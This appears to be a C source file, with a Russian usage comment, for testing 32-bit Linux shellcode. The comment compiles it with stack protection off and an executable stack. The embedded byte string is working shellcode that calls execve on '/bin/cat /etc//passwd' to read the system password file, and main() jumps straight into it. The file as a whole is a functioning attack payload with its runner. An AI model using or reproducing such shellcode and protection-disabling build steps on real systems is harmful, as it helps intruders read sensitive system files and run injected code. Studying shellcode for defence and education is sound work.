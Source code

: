 // Использование: gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o test_shellcode_v2 test_shellcode_v2.c && ./test_shellcode_v2  
  
#include <stdio.h>  
#include <string.h>  
  
const unsigned char shellcode[] =  
        "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89"  
        "\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65"  
        "\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80";  
  
int main(int argc, char* argv[]) {  
        printf("Shellcode size: %d\n\n", strlen((const char*)shellcode));  
  
        void (*fp)(void);  
        fp = (void*)shellcode;  
        fp();  
}